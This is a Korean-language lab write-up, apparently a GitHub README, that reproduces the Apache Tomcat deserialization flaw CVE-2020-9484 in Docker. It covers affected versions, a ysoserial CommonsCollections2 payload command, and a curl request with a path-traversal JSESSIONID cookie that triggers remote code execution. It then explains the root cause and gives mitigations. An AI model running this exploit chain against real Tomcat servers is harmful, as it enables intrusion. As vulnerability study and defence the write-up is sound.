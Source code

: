 # CVE-2020-9484 



## 0. 취약한 환경 버전

#### Apache Tomcat

> 7.0.0 ~ 7.0.103
>
> 8.5.0 ~ 8.5.54
>
> 9.0.0.M1 ~ 9.0.34
>
> 10.0.0-M1 ~ 10.0.0-M4





## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **ysoserial**



> CommonsCollections2 가젯 체인을 이용하여 공격 코드가 포함된 세션 파일 생성 ( docker 파일 내 첨부되어 따로 실행하지 않아도 됨)

``````
java -jar ./ysoserial-master.jar CommonsCollections2 'tocuh /tmp/rce' > groovy.session
``````



ysoserial: https://github.com/frohoff/ysoserial



> docker 파일이 존재하는 git 서버 클론

```
git clone https://github.com/masahiro331/CVE-2020-9484.git
```





> 톰캣 서버 이미지 생성

```docker build -t tomcat:groovy .
docker build -t tomcat:groovy .
```





>호스트 8080번 포트를 도커의 8080포트로 전달하여 실행

```docker run -d -p 8080:8080 tomcat:groovy
docker run -d -p 8080:8080 tomcat:groovy
```







> 도커 프로세스 확인

```
docker ps -a
```







> 도커 진입

```docker exec -t -i 이름 /bin/bash
docker exec -t -i 이름 /bin/bash
```





## 2. PoC



> 아파치 서버 웹페이지 확인





> tmp 폴더 확인

```cd /tmp & ls
cd /tmp & ls
```







> 취약한 Session Deserialization을 이용하여 rce 파일 삽입

```
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy
```







## 3. 원인 분석

Tomcat에서 사용하는 Session Manager는 Standard Manager와 Persistent Manager 2가지가 있다. Standard Manager는 Tomcat 기본 설정으로 메모리에 세션을 저장하다가 서버의 재시작/정지 시에 세션 데이터를 직렬화하여 session.ser 파일에 저장한다. 서버 에러 등 예기치 않은 정지 시에는 세션 데이터가 저장되지 않는다. 



Persistent Manager는 Standard와 동일하나 일정 시간 사용되지 않는 세션을 가져와 파일 또는 데이터베이스에 저장한다. 세션을 저장할 때는 세션 데이터를 직렬화하여 저장하고, 해당 세션 요청이 들어오면 역직렬화하여 메모리에 가져온다.



Persistent Manager를 사용하여 세션을 관리할 때에는 세션을 저장할 디렉터리를 정할 수 있다. Store 요소 안에 className 속성을 org.apache.catalina.FileStore로 지정하면 directory 속성으로 저장할 디렉터리를 지정할 수 있으며, 세션ID를 사용해 파일 이름을 저장한다. className 속성을 org.apache.caltalina.JDBCStore로 지정하면 개별 행으로 저장되는 데이터베이스에 세션이 저장된다



```xml
<Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter="">

<Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>

</Manager>
```





**RCE 실행 조건**

1. 공격자는 서버에 있는 파일 내용과 이름을 제어할 수 있는 경우
2. 서버가 PersistenceManager의 FileStore를 사용하도록 구성된 경우
3. PersistenceManager가 sessionAttributeValueClassNameFilter="null" 또는 공격자가 제공한 개체를 역직렬화할 수 있도록 필터 구성이 미흡한 경우
4. 공격자는 FileStore에서 사용하는 스토리지 위치와 제어가능한 파일의 상대 경로를 아는 경우





## 4. 대응 방안

1. Persistent Manger 주석처리
2. FileStore 기능을 비활성화하거나 sessionAttributeValueClassNameFilte 값을 별도로 구성하여 특정 속성을 가진 개체만 직렬화/역직렬화할 수 있도록 조치
3. 버전 업그레이드





## 참조

1. https://github.com/masahiro331/CVE-2020-9484

2. https://github.com/frohoff/ysoserial
3. https://m.blog.naver.com/skinfosec2000/222042818637

